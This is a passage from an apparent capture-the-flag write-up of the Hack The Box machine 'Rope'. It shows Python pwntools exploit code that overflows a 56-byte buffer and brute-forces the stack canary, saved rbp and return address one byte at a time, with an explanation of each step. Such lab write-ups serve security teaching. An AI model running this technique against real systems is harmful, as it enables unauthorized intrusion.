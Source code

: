
### Exploiting the binary
This whole section will be a detailed explanation of the exploit code. The complete code can be found on my [Github](https://github.com/chr0x6eos/HTB/blob/master/Rope/root.py).

#### Brute forcing the values
```python
def bf_value(ssh, type, payload):
    log.info("Starting to bruteforce %s..." % type)
    leak_value = b''
    empty(3) #Print empty line, so above output is not being cleared

    while len(leak_value) < 8:
        byte = 0
        while byte < 255:
            try:
                clear(2) # Clear to only show current byte
                log.info("Trying byte: " + hex(byte))
                io = start(ssh)
                data = b'A' * 0x38 + payload + leak_value + bytes([byte])
                io.sendafter("send to admin:", data)
                io.recvline()

                if "Done" in io.recvline().decode():
                    leak_value += bytes([byte])
                    clear(3) # Clear unimportant output
                    log.success("Got part of %s: %s" % (type,hex(u64(leak_value.ljust(8, b'\x00')))))
                    empty() #Print empty line, so status is not being cleared
                    io.close()
                    break
                else:
                    raise EOFError
            except EOFError:
                clear() # Clear old output
                byte += 1
                io.close()

    clear(5) # Clear previous output
    log.success("Got %s: %s" % (type,hex(u64(leak_value))))
    empty() #Print empty line, so above output is not being cleared
    return u64(leak_value)
```
The bf_value function exploits the previously explained behavior, where we can brute-force the stack-canary, rbp and the return address, byte-by-byte. For this we just have to overflow the buffer (56 bytes) and try each possible byte until we get a "Done" returned. We can repeat this process for all three values.

```python
canary = bf_value(ssh, "canary", b'')
rbp = bf_value(ssh, "rbp", p64(canary))
ret = bf_value(ssh, "ret", p64(canary) + p64(rbp))
```
We can use the same function for all three values. We just need to update the payload value (already know data from the stack).


[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif